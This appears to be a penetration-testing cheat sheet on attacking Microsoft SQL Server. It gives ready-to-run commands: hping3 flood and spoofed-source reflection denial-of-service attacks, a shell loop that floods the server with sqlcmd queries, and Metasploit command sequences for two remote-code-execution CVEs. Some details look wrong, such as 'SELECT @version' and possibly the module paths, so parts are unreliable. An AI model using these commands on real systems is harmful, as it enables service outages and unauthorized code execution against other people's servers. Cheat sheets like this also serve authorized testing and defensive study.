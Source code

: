 ### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### Flooding SQL Server with Queries

*   **Tool:** \[\[Custom Scripts]], \[\[SQLCMD]]

    ```bash
    for i in {1..10000}; do sqlcmd -S <target_ip>,1433 -U <username> -P '<password>' -Q "SELECT @version"; done
    ```
* **Description:** Overwhelms SQL Server with a large number of queries, potentially leading to resource exhaustion.

### Exploits

#### CVE-2020-0618

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/mssql/ms_sql_jdbc
    set RHOSTS <target_ip>
    set RPORT 1433
    run
    ```
* **Description:** MSSQL Reporting Services RCE - Remote code execution vulnerability in MSSQL Reporting Services.

#### CVE-2019-1068

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/http/ms_sql_rce
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Remote Code Execution Vulnerability in SQL Server Reporting Services (SSRS).
